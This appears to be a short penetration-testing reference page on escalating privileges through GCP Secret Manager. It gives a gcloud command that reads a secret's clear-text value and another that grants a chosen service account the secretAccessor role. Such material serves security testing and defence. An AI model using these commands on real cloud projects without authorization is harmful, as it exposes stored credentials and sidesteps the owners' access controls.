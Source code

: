 # GCP - Secretmanager Privesc

{{#include ../../../banners/hacktricks-training.md}}

## secretmanager

For more information about secretmanager:

{{#ref}}
../gcp-services/gcp-secrets-manager-enum.md
{{#endref}}

### `secretmanager.versions.access`

This give you access to read the secrets from the secret manager and maybe this could help to escalate privielegs (depending on which information is sotred inside the secret):

```bash
# Get clear-text of version 1 of secret: "<secret name>"
gcloud secrets versions access 1 --secret="<secret_name>"
```

As this is also a post exploitation technique it can be found in:

{{#ref}}
../gcp-post-exploitation/gcp-secretmanager-post-exploitation.md
{{#endref}}

### `secretmanager.secrets.setIamPolicy`

This give you access to give you access to read the secrets from the secret manager, like using:

```bash
gcloud secrets add-iam-policy-binding <scret-name> \
  --member="serviceAccount:<sa-name>@$PROJECT_ID.iam.gserviceaccount.com" \
  --role="roles/secretmanager.secretAccessor"
```

{{#include ../../../banners/hacktricks-training.md}}





